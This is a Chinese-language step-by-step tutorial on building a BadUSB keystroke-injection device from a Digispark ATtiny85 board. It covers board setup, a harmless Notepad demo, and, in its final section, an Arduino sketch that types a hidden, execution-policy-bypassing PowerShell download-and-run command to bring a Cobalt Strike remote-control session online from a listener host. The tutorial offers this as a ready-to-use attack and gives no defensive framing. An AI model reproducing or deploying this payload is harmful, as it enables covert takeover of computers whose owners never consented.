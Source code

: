 # 前言

在2014年美国黑帽大会上，安全研究人员JakobLell和独立安全研究人员Karsten Nohl展示了他们称为“BadUSB”的攻击方法，这种攻击方法让USB安全和几乎所有和USB相关的设备(包括具有USB端口的电脑)都陷入相当危险的状态

现在的USB设备很多，比如语音视频设备、摄像头等，因此要求系统提供最大的兼容性，甚至免驱；所以在设计USB标准的时候没有要求每个USB设备像网络设备那样占有一个唯一可识别的MAC地址让系统进行验证，而是允许一个USB设备具有多个输入输出设备的特征。这样就可以通过重写U盘固件，伪装成一个USB键盘，并通过虚拟键盘输入集成到U盘固件中的指令和代码而进行攻击



# 什么是Badusb

BadUSB是利用了USB协议上的漏洞，通过更改USB的内部固件，在正常的USB接口接入后，模拟外置鼠标、键盘的功能，以此来使目标主机执行已经精心构造好的命令。在此过程中不会引起杀毒软件、防火墙的一丝怀疑。而且因为是在固件级别的应用，U盘格式化根本无法阻止其内部代码的执行



# 准备步骤

## 1.设备选择

制作badusb的几种常见载体有：Arduino Leonardo、Phison、Teensy、Attiny85、PS2303（芯片）、RUBBER DUCKY等。

从专业程度和易用性来讲RUBBER DUCKY最优, 本篇文章选择基于Attiny85的设备, 淘宝上价格在12~20左右, 性价比相对来说比较高



## 2.Arduino IDE的安装

Arduino开发者工具Arduino IDE的下载地址: https://www.arduino.cc/en/software, 选择下载Windows ZIP file文件即可

首次打开Arduino IDE, 会自动联网下载软件包并安装

<img src="badusb/image-20221207093117704.png" alt="image-20221207093117704" style="zoom:67%;" />	

<br>

## 3.驱动安装

开发板驱动程序下载地址: https://github.com/digistump/DigistumpArduino/releases/download/1.6.7/Digistump.Drivers.zip

下载完后解压文件, 然后运行`DPinst64.exe`和`Install Drivers.exe`

<img src="badusb/image-20221207172301683.png" alt="image-20221207172301683" style="zoom:67%;" />	

<br>

## 4.配置Digispark环境

### 方法一

若你的外网连接速度够快, 那么可直接点击首选项, 然后在其他开发板管理器地址输入`http://digistump.co/package_digistump_index.json`

<img src="badusb/image-20221207161344709.png" alt="image-20221207161344709" style="zoom:67%;" />

<br>

### 方法二	

由于开发板管理器的下载模块是通过网站进行下载的, 若访问github的网速不够快就会报错, 但我们自行搭建本地服务器, 将json文件和其他压缩文件一起放到本地服务器上, 此处我选择用phpstudy搭建服务器, 首先启动phpstudy

<img src="badusb/image-20221207161959077.png" alt="image-20221207161959077" style="zoom:67%;" />	

<br>

开启外网代理, 访问`https://raw.githubusercontent.com/ArminJo/DigistumpArduino/master/package_digistump_index.json`, 复制json文件内容至1.json中

![image-20221207162430692](badusb/image-20221207162430692.png)





下载压缩包: https://github.com/ArminJo/DigistumpArduino, 解压后将`digistump-avr-1.7.5.zip`和`tools/micronucleus-cli-2.6-x86_64-mingw32.zip`复制到本地服务器中, 也把1.json复制到本地服务器上

![image-20221207170035761](badusb/image-20221207170035761.png)<br>	

修改1.json文件内容, 将url字段的值修改为对应的本地服务器文件地址	

<img src="badusb/image-20221207171822237.png" alt="image-20221207171822237" style="zoom:67%;" />	

<img src="badusb/image-20221207171830047.png" alt="image-20221207171830047" style="zoom:67%;" />	

<br>		

在首选项处的其他开发管理器地址填写成: `http://127.0.0.1:81/1.json`

<img src="badusb/image-20221207163531359.png" alt="image-20221207163531359" style="zoom:67%;" />	

<br>

## 5.安装Digispark开发板

点击`工具->开发板->开发板管理器`, 然后在左边的侧栏找到`Digistump`进行安装

<img src="badusb/image-20221207164154628.png" alt="image-20221207164154628" style="zoom:67%;" />	

<img src="badusb/image-20221207164255491.png" alt="image-20221207164255491" style="zoom:67%;" />	

<br>

选择对应的开发板型号，配置完成

![image-20221207174646095](badusb/image-20221207174646095.png)



<br>

# 烧录基本流程

## 1.验证代码

这段代码包含了一个名为 setup() 的函数和一个名为 loop() 的函数。

setup() 函数中包含了一些指令，它们会在程序运行时首先被执行。

```c++
#include "DigiKeyboard.h"

void setup() {
DigiKeyboard.sendKeyStroke(0); //发送一个按键,用于清空当前的输入

DigiKeyboard.delay(3000);   //延迟三秒钟
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);  //发送一个按键,用于打开运行对话框
DigiKeyboard.delay(1000);
DigiKeyboard.println("notepad"); //向运行对话框输入notepad打开记事本
DigiKeyboard.sendKeyStroke(KEY_ENTER);  //发送一个回车键
DigiKeyboard.delay(4000);
DigiKeyboard.println("Hellow");  //向打开的记事本窗口输入"Hello"
}

void loop() {

}
```

<br>

点击右上角的勾号对代码进行验证

![image-20221211221332777](badusb/image-20221211221332777.png)

<br>

## 2.上传代码

点击箭头上传代码, 随后在命令行界面会显示"Please plug in the device(will time out in 60 seconds)", 意思是在60秒内插入我们的badusb设备

<img src="badusb/image-20221211221800506.png" alt="image-20221211221800506" style="zoom:67%;" />	

![image-20221211222431700](badusb/image-20221211222431700.png)

<br>

插入badusb后开始烧录

<img src="badusb/image-20221211223136517.png" alt="image-20221211223136517" style="zoom:67%;" />		

<br>

## 3.验证效果

插入badusb后会自动打开一个记事本, 然后在记事本上输入Hellow

<img src="badusb/动画-16707698471872.gif" alt="动画" style="zoom:67%;" />	

<br>

# CobaltStrike远控上线

## Ardunio代码

这段代码包含了一些头文件的引用和宏定义，接下来是两个函数：setup()和loop()。

```c++
#include "DigiKeyboard.h"
#define KEY_ESC     41
#define KEY_BACKSPACE 42
#define KEY_TAB     43
#define KEY_PRT_SCR 70
#define KEY_DELETE  76
 
void setup() {
 
DigiKeyboard.delay(5000); //延迟5秒
DigiKeyboard.sendKeyStroke(0);  ////发送一个按键,用于清空当前的输入
DigiKeyboard.delay(3000);
DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT); //发送一个按键,用于打开运行对话框
DigiKeyboard.delay(1000);
DigiKeyboard.print(F("powershell -WindowStyle Hidden -NoLogo -executionpolicy bypass IEX(New-Object Net.WebClient).DownloadString('http://192.168.47.155:80/a');"));  //向运行对话框输入PowerShell代码远程执行CS上线指令
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER);  //发送一个回车键
DigiKeyboard.delay(750);
DigiKeyboard.sendKeyStroke(KEY_ENTER); 
 
}
void loop() {
}
```

<br>

## 执行效果

![动画](badusb/动画.gif)

<br>	

# 注意事项

- 在进行烧录操作时要关闭虚拟机(因为badusb设备会被虚拟机优先识别判断), 不然Arduino IDE无法进行烧录
- 若要在虚拟机测试badusb的功能, 需要在其首选项设置优先识别badusb设备



​	

